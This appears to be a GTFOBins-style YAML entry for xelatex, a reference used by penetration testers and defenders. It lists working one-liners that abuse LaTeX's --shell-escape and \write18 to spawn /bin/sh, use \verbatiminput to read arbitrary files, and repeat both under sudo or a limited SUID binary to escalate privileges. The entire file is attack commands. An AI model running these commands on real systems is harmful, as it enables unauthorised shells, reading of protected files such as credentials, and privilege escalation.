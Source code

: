 ```yaml
---
functions:
  shell:
    - code: |
        xelatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
  file-read:
    - description: The read file will be part of the output.
      code: |
        xelatex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
        strings article.dvi
  sudo:
    - description: The read file will be part of the output.
      code: |
        sudo xelatex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
        strings article.dvi
    - code: |
        sudo xelatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
  limited-suid:
    - code: |
        ./xelatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
---
```

